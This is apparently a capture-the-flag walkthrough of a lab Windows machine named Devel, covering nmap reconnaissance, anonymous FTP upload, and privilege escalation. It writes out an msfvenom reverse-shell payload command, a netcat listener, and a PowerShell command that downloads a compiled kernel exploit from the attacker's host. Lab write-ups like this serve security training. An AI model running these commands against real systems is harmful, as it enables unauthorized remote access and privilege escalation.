 Devel

# Reconnaissance 

### ****Scanning****

- **Initial Scan**
	- Command 
	`sudo nmap -sC -sV -T4 -O -oA devel 10.10.10.5`
		- `-sC`: run default nmap scripts
		- `-T4`: Set timing template (higher is faster)
		- `-O`: Detect OS
		- `sV`: detect service version
		- `-oA`: Output all files formats to name "lame"

Running the initial nmap scan showed 9 open ports on the target machine

- **Port 21**: Microsoft ftpd
- **Port 80**: Microsoft IIS httpd 7.5

![initial_scan](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/inital_scan.png)

- **Full Scan**
Now let run a scan on all port to see if there are any other entry points.

	- Command 
	`sudo nmap -sC -sV -T4 -O -p- -oA devel_full 10.10.10.40`
		-	`-p-`: Scan all ports
		

We get the same results from the full scan.

![full scan](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/inital_scan.png)

- **UDP Scan**
Now to be extra thorough I'm going to run a UDP scan.

	- Command
	`sudo nmap -sU -T4 -O -p- -oA devel_udp 10.10.10.40`
		- `-sU`: UDP scan

The UDP scan was still running after 5 hours. If we don't gain a foothold in the proceeding steps we will attempt the UDP scan again.

--------------------------------------------
--------------------------------------------
# Enumeration

We saw in our initial scan that the server allows annonymous login on the FTP server. Meaning that anyone can login.

`ftp 10.10.10.5`

![ftp login](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/ftp_login.png)

We can even list the files in the current directory.

![ftp directories](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/ftp_directories.png)

Let's see if we visit these files on the browser

![browser](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/browser.png)

This leads me to believe that the ftp server is uploading files to the root directory of the web server.

I created a test file to see if I was able to upload it to the server and it was succesful.

![test file](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/test_file.png)

We should be able to get a shell with this knowledge.

# Exploitation

We need to generate a payload in order to upload it to the FTP server and execute it in the browser to get a reverse shell. Since this is a windows web server we're going to need to generate our payload as a .aspx file.

`msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.15 LPORT=4444 -o devel_shell.aspx `

Now lets put the shell on the server

![put shell](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/put_shell.png)

Now lets set up out listener

`nc -lvnp 4444`

Now we can execute the file in the browser. We got our shell!

![reverse shell](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/reverse_shell.png)

# Priviledge Escalation

We have our shell as the user "iis apppool\web". We don't have much priviledge with this account so we're going to need to elevate our priviledges.

![user shell](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/user_shell.png)

Let's get some more information about this device.

`systeminfo`

The info shows that this machine is on an old version of windows and it have not been updated

Let's Google for exploits on the windows version "Microsoft Windows 7 build 7600"

We found one on exploit db so we should be able to find it in searchploit by searching the vulnerability name.

![priv esc](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/priv_esc.png)

`searchsploit -m 40564`

Now that we have it copied to our directory we need to compile it with the instructions below

![compile instructions](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/compile_instructions.png)

`sudo apt install mingw-w64 `

Now we can compile it using the command listed in the exploit.

`i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32`

Now lets set up a quick http server to transfer the file to the machine 

`python -m SimpleHTTPServer 8080`

Since there is no netcat installed on the machine, let use some powershell to grba the file.

`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.15:8080/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"`

After running that we finally hve the exe file on our target machine 

![exe ontarget](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/exe_ontarget.png)

After executing the file we have admin priviledges!

![admin priv](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/admin_priv.png)

Navigating to babis desktop directory we got the user flag

![user flag](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/user_flag.png)

Navigating to the administrators desktop we got the root directory.

![root flag](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/root_flag.png)
